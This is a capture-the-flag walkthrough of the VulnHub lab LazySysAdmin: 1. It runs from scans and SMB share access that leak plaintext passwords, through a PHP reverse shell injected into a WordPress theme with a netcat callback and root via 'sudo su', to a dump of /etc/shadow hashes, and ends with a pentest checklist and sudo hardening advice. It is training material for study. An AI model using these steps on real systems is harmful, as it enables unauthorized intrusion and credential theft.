

#LazySysAdmin


### [VulnHub - Machine Information Page - LazySysAdmin: 1](https://www.vulnhub.com/entry/lazysysadmin-1,205/)

### [YouTube - LazySysAdmin: 1 || VulnHub Walkthrough](https://www.youtube.com/watch?v=5UVn7BgauC4)


---


# Installation 🔌💻🖥️🛜💾🔌

When unzipping the file we get several files:
- Lazysysadmin.mf
- Lazysysadmin.ovf
- Lazysysadmin-disk1.vmdk

We can just create a new Linux machine on VirtualBox and add the disk `Lazysysadmin-disk1.vmdk`.

Then change the Network settings from NAT til Host Only Adapter.


---
---

# Enumeration

## netdiscover & nmap

Let's identify the target IP-address. We do that with netdiscover.

```bash
# netdiscover 
urrently scanning: 192.168.93.0/16   |   Screen View: Unique Hosts                                          
                                                                                                              
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                              
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.2    08:00:27:bf:97:a6      1      60  PCS Systemtechnik GmbH                                     
 192.168.56.33   0a:00:27:00:00:07      1      60  Unknown vendor                                             
 192.168.56.34   08:00:27:fa:71:c9      1      60  PCS Systemtechnik GmbH                                     

                                                                                                               
# Now we got the IP address of the target machine, let's use nmap, to find all the open ports that we can exploit.
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.34 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-19 18:20 CEST
Nmap scan report for 192.168.56.34
Host is up (0.0055s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
|_http-title: Backnode
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.52
|_  error: Closing link: (nmap@192.168.56.52) [Client exited]
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -3h19m59s, deviation: 5h46m24s, median: 0s
| smb2-time: 
|   date: 2025-10-19T16:21:21
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2025-10-20T02:21:21+10:00
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.86 seconds
                                                                                                               
# Just in case, another nmap scan for ALL PORTS
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.34 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-19 18:22 CEST
Nmap scan report for 192.168.56.34
Host is up (0.022s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.52
|_  error: Closing link: (nmap@192.168.56.52) [Client exited]
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-19T16:22:54
|_  start_date: N/A
|_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2025-10-20T02:22:54+10:00
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.42 seconds
```

We can confirm that the following ports are available
- 22/TCP - SSH - OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
- 80/TCP - HTTP - Apache httpd 2.4.7 ((Ubuntu))
- 139/TCP - Samba - smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
- 445/TCP - Samba - smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
- 3306/TCP - MySQL - MySQL (unauthorized)
- 6667/TCP - irc - InspIRCd


I can't help myself but to check the webpage already, nothing too fancy but still some graphic, this website actually have a `robots.txt`
```bash
# Content of robots.txt
User-agent: *
Disallow: /old/
Disallow: /test/
Disallow: /TR2/
Disallow: /Backnode_files/
```

old, test, TR2 had no value whatsoever... ``Backnode_files`` is just content of the website, just a red herring, css, javascript, html, images.


## GoBuster


```bash
# gobuster dir -u http://192.168.56.34/ -w /usr/share/wordlists/dirb/common.txt  
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.34/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.34/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 284]
/.htaccess            (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 289]
/apache               (Status: 301) [Size: 314] [--> http://192.168.56.34/apache/]
/index.html           (Status: 200) [Size: 36072]
/javascript           (Status: 301) [Size: 318] [--> http://192.168.56.34/javascript/]
/info.php             (Status: 200) [Size: 77163]
/old                  (Status: 301) [Size: 311] [--> http://192.168.56.34/old/]
/phpmyadmin           (Status: 301) [Size: 318] [--> http://192.168.56.34/phpmyadmin/]
/robots.txt           (Status: 200) [Size: 92]
/server-status        (Status: 403) [Size: 293]
/test                 (Status: 301) [Size: 312] [--> http://192.168.56.34/test/]
/wordpress            (Status: 301) [Size: 317] [--> http://192.168.56.34/wordpress/]
/wp                   (Status: 301) [Size: 310] [--> http://192.168.56.34/wp/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```


### wordpress page - 

`http://192.168.56.34/wordpress/`


*Maybe the name ``togie`` is worth keeping in mind*

## SMB Client

Alright it's not every day we see a CTF with smbd:
- 139/TCP - Samba - smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
- 445/TCP - Samba - smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

we can use the smbclient command and try to see if we are able to login with a password.

```bash
# smbclient -L 192.168.56.34
# just hit Enter/ keep the password blank
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.34
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAZYSYSADMIN

# We can try retrieve the files from share$
# smbclient '\\192.168.56.34\share$'
┌──(kali㉿kali)-[~]
└─$ smbclient '\\192.168.56.34\share$'
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 13:05:52 2017
  ..                                  D        0  Mon Aug 14 14:34:47 2017
  wordpress                           D        0  Tue Aug 15 13:21:08 2017
  Backnode_files                      D        0  Mon Aug 14 14:08:26 2017
  wp                                  D        0  Tue Aug 15 12:51:23 2017
  deets.txt                           N      139  Mon Aug 14 14:20:05 2017
  robots.txt                          N       92  Mon Aug 14 14:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 14:39:56 2017
  apache                              D        0  Mon Aug 14 14:35:19 2017
  index.html                          N    36072  Sun Aug  6 07:02:15 2017
  info.php                            N       20  Tue Aug 15 12:55:19 2017
  test                                D        0  Mon Aug 14 14:35:10 2017
  old                                 D        0  Mon Aug 14 14:35:13 2017

                3029776 blocks of size 1024. 1456640 blocks available
smb: \> 
# Some files that could be interesting to see the content of... maybe the todolist?
smb: \> get todolist.txt
getting file \todolist.txt of size 79 as todolist.txt (3.1 KiloBytes/sec) (average 66.0 KiloBytes/sec)
smb: \> 
# This is the content of the todolist.txt
Prevent users from being able to view to web root using the local file browser

# In general check all txt files for clues
smb: \> get deets.txt 
getting file \deets.txt of size 139 as deets.txt (3.8 KiloBytes/sec) (average 3.8 KiloBytes/sec)
smb: \> 
# This is the content of the deets.txt
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345


# The content of the wordpress folder
smb: \> cd wordpress\
smb: \wordpress\> ls
  .                                   D        0  Tue Aug 15 13:21:08 2017
  ..                                  D        0  Tue Aug 15 13:05:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 10:58:26 2015
  wp-trackback.php                    N     4513  Fri Oct 14 21:39:28 2016
  wp-admin                            D        0  Wed Aug  2 23:02:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 20:01:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 12:20:28 2015
  index.php                           N      418  Wed Sep 25 02:18:11 2013
  wp-cron.php                         N     3286  Sun May 24 19:26:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 03:46:30 2016
  readme.html                         N     7413  Mon Dec 12 09:01:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 12:08:42 2017
  wp-content                          D        0  Mon Aug 21 12:07:27 2017
  license.txt                         N    19935  Mon Jan  2 18:58:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 06:13:43 2017
  wp-activate.php                     N     5447  Tue Sep 27 23:36:28 2016
  .htaccess                           H       35  Tue Aug 15 13:40:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 18:31:29 2016
  wp-login.php                        N    34327  Fri May 12 19:12:46 2017
  wp-load.php                         N     3301  Tue Oct 25 05:15:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 14:00:32 2016
  wp-config.php                       N     3703  Mon Aug 21 11:25:14 2017
  wp-includes                         D        0  Wed Aug  2 23:02:03 2017

3029776 blocks of size 1024. 1456636 blocks available
smb: \wordpress\> 

# wp-config.php is interesting, because it should contain database with credential information.
# We will use the get command to download this file to the home directory of our Kali Linux machine
smb: \wordpress\> get wp-config.php 
getting file \wordpress\wp-config.php of size 3703 as wp-config.php (116.7 KiloBytes/sec) (average 116.7 KiloBytes/sec)
smb: \wordpress\> 

# If we check inside the wp-config.php we will find username and password
/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

### Tip! 💡

 *You can clear the screen of the terminal with `Ctrl + L`  or `Shift + Ctrl + L`*, the `clear` command does not work while using the SMB client interface.

```php
# If we check inside the wp-config.php we will find username and password
/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```


---
---

# Foothold 🦶

## Word Press 

With the username and password:
 `Admin` and `TogieMYSQL12345`

let's use the wordpress login page on the browser. `http://192.168.56.34/wordpress/wp-login.php`


### Gain Reverse Shell Connection

And we now have access to the dashboard, this gives us the opportunity to establish a shell connection.



Go to the `Appearance` tab, then choose `Editor`.  we will modify the 404 error template, remove the original content and then add a PHP reverse shell script.
`http://192.168.56.34/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen&scrollto=2912`


```bash
# We can locate our php-reverse-shell on kali linux with this command
┌──(kali㉿kali)-[~]
└─$ locate php-reverse-shell 
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php


# Then open the file with mousepad
┌──(kali㉿kali)-[~]
└─$ mousepad /usr/share/webshells/php/php-reverse-shell.php

```

## Jesus Christ! I nearly had a heart attack! 💓💔🫣😨😱❤️‍🩹

*Note to self... never add the snippet of the whole php-reverse shell inside your notes!! Windows Defender will detect the content inside the file and take your whole document and put it into `C:\ProgramData\Microsoft\Windows Defender\Quarantine`*


Alright... back to our CTF.... Thank God I didn't lose all my precious work! I have been writing for hours now!

Alright... Copy the entire script `php-reverse-shell` to the 404 template on Word Press

remember to change the value of the variables $ip and $port...
In my case $ip = '192.168.56.52' I keep the port as is.

#### Now save the changes, then open a terminal and initiate net cat to start listening 🎧🔈🐈‍⬛🐈
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                 
listening on [any] 1234 ...

# Now we just have to make a 404 error on the website! This should not be rocket science to do? 🚀👨‍🚀
# With the URL of: `http://192.168.56.34//wordpress/wp-content/themes/twentyfifteen/404.php`
# we can force the error

# And now something happened on with our net cat listener!
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                 
listening on [any] 1234 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.34] 42614
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 06:14:29 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```


```bash
# Now we can use python to spawn an interactive shell.
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@LazySysAdmin:/$ whoami
whoami
www-data
www-data@LazySysAdmin:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@LazySysAdmin:/$ 

# We can check if this CTF has a user flag 🚩
www-data@LazySysAdmin:/$ cd /home
cd /home
www-data@LazySysAdmin:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root  root  4096 Aug 14  2017 .
drwxr-xr-x 22 root  root  4096 Aug 21  2017 ..
drwxr-xr-x  3 togie togie 4096 Aug 15  2017 togie
www-data@LazySysAdmin:/home$ cd togie
cd togie
www-data@LazySysAdmin:/home/togie$ ls -al  
ls -al
total 24
drwxr-xr-x 3 togie togie 4096 Aug 15  2017 .
drwxr-xr-x 3 root  root  4096 Aug 14  2017 ..
-rw-r--r-- 1 togie togie  220 Aug 14  2017 .bash_logout
-rw-r--r-- 1 togie togie 3637 Aug 14  2017 .bashrc
drwx------ 2 togie togie 4096 Aug 14  2017 .cache
-rw-r--r-- 1 togie togie  675 Aug 14  2017 .profile
www-data@LazySysAdmin:/home/togie$ 

# Nope, this CTF does not have a User Flag 🚩
# Let's get the root flag then!
www-data@LazySysAdmin:/home/togie$ cd /root
cd /root
bash: cd: /root: Permission denied
```


---
---

# Privilege Escalation

With the password from `deets.txt` which was 12345 and the username of togie, let's login as togie

```bash
www-data@LazySysAdmin:/home/togie$ su togie
su togie
Password: 12345

togie@LazySysAdmin:~$ 

# We need to examine the permission that this user has
togie@LazySysAdmin:~$ sudo -l
sudo -l
[sudo] password for togie: 12345

Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

# This is important, we can use ALL commands
User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
togie@LazySysAdmin:~$ 

# but access to root is still denied
togie@LazySysAdmin:~$ cd /root
cd /root
rbash: cd: restricted

# But if we use the command to change to super/substitute user, we can get access to the root directory - Misconfigured Sudo Permissions
togie@LazySysAdmin:~$ sudo su
sudo su
root@LazySysAdmin:/home/togie# cd /root
cd /root
root@LazySysAdmin:~# ls
ls
proof.txt
root@LazySysAdmin:~# cat proof.txt
cat proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851

Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie

Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
root@LazySysAdmin:~#
```


---
---

## Bonus - Shadow 🫥🤫

```bash
root@LazySysAdmin:~# cat /etc/shadow
cat /etc/shadow
root:$6$O4bZf1Ju$0xcLPNyQkVcKT0CajZYBOTz4thlujMRjQ7XuFstUDWwYHKmVmJsDmzGXUwYbU1uqr6jxEvX4XJjSUgiwjPmEp0:17399:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17392:0:99999:7:::
landscape:*:17392:0:99999:7:::
togie:$6$dvOTOc6x$jpt1MVPeBsVlfkhVXl3sv21x2Ls2qle8ouv/JMdR6yNpt2nHHahrh0cyT.8PfVcNqlrAHYFkK2WYdSbxQ4Ivu1:17392:0:99999:7:::
sshd:*:17392:0:99999:7:::
mysql:!:17392:0:99999:7:::
root@LazySysAdmin:~# 

root@LazySysAdmin:~# awk -F: '/^root/{print $2}' /etc/shadow    
awk -F: '/^root/{print $2}' /etc/shadow
$6$O4bZf1Ju$0xcLPNyQkVcKT0CajZYBOTz4thlujMRjQ7XuFstUDWwYHKmVmJsDmzGXUwYbU1uqr6jxEvX4XJjSUgiwjPmEp0
root@LazySysAdmin:~# 

```


---
---

# VulnHub Pentest Notes - [Machine Name]  
🔍 **Target IP:** `X.X.X.X`  
🖥 **OS:** Linux/Windows (Update accordingly)  
📅 **Date:** 2025-10-19  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/lazysysadmin-1,205/)  
📌 [YouTube Walkthrough](https://www.youtube.com/watch?v=5UVn7BgauC4)  


---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  


---
---


## Overview of the Privilege Escalation

### Initial User - `togie`
- The user **`togie`** does not have direct access to the root directory (`/root`). The command **`cd /root`** is restricted, indicating that the user does not have sufficient permissions.

### Sudo Permissions
- The output from **`sudo -l`** shows that **`togie`** can run all commands as any user, which is a significant permission. However, the ability to change to the root user was tested directly but resulted in a restriction.

### Escalation Using `sudo su`
- By executing **`sudo su`**, **`togie`** successfully becomes the root user without restriction. This indicates a misconfigured sudo environment that allows the use of **`su`** to elevate privileges.

## Key Points of Misconfiguration

| Aspect                | Description                                          |
|-----------------------|------------------------------------------------------|
| **Sudo Permissions**  | `togie` has permission to execute any command (`(ALL : ALL) ALL`), which is broad and risky.  |
| **Rbash Restriction** | Direct access to the `/root` directory is denied. However, external access via **`sudo su`** bypasses this.  |
| **Environment Reset** | The environment is reset but does not prevent accessing root privileges via **`sudo su`**. |

### Security Implications
- This configuration poses a security risk, as any user granted the same permissions could access sensitive information in the root directory.
- Correct configurations typically restrict users from running shell-like commands or using **`su`** without proper access checks.

## Recommendations for Proper Configuration

1. **Limit Permissions:** Restrict the scope of what users can do with sudo, ideally only allowing the necessary commands.
2. **Use `sudo` Instead of `sudo su`:** If users need to perform admin tasks, allow specific commands rather than enabling root shell access.
3. **Regular Audits:** Conduct periodic reviews of user permissions and sudoers configurations to mitigate risks of misconfiguration.

### Conclusion
In this CTF scenario, understanding and exploiting sudo permissions showcases the importance of careful user privilege management in Linux systems. The ability to transition from **`togie`** to root via **`sudo su`** highlights the potential for privilege escalation due to misconfigured permissions.